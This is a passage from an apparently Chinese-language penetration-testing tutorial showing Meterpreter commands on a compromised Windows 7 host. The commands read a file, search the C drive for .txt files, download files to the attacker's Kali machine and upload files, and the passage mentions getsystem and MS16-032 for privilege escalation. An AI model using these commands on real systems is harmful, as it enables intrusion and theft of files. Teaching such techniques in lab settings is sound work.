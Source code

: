 ![image-20220317151455621](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cwh114rnj20g90h7dje.jpg)

##### 4)查看目标1.txt文件内内容：cat 1.txt



##### 5)搜寻、拷贝、上传文件至目标（需要拥有system权限，可以利用getsystem、MS16-032漏洞进行提权）

搜寻c盘内所有以txt为后缀的文件：`search -f *.txt -d c:\`

拷贝文件至kali内：`download c:\1.txt /root`
上传文件至win7C盘目录下：`upload /home/zidian/msfadmin.txt c:\ `

